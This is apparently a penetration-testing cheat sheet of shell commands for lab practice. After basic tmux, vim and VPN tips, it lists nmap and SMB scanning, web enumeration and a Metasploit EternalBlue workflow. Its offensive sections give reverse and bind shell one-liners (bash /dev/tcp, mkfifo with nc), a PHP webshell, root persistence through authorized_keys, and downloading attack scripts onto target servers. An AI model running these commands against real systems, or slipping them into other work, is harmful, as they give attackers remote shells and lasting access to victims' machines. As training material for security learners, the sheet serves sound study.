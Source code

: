 ## Basic Tools

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `sudo openvpn user.ovpn` | Connect to VPN |
| `ifconfig`/`ip a` | Show our IP address |
| `netstat -rn` | Show networks accessible via the VPN |
| `ssh user@10.10.10.10` | SSH to a remote server |
| `ftp 10.129.42.253` | FTP to a remote server |
| **tmux** |
| `tmux` | Start tmux |
| `ctrl+b` | tmux: default prefix |
| `prefix c` | tmux: new window |
| `prefix 1` | tmux: switch to window (`1`) |
| `prefix shift+%` | tmux: split pane vertically |
| `prefix shift+"` | tmux: split pane horizontally |
| `prefix ->` | tmux: switch to the right pane |
| **Vim** |
| `vim file` | vim: open `file` with vim |
| `esc+i` | vim: enter `insert` mode |
| `esc` | vim: back to `normal` mode |
| `x` | vim: Cut character |
| `dw` | vim: Cut word |
| `dd` | vim: Cut full line |
| `yw` | vim: Copy word |
| `yy` | vim: Copy full line |
| `p` | vim: Paste |
| `:1` | vim: Go to line number 1. |
| `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

## Pentesting
| **Command**   | **Description**   |
| --------------|-------------------|
| **Service Scanning** |
| `nmap 10.129.42.253` | Run nmap on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |
| **Web Enumeration** |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `gobuster vhost -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source (in Firefox) |
| `nikto -h <ip>` | web enumb tool |
| **Public Exploits** |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |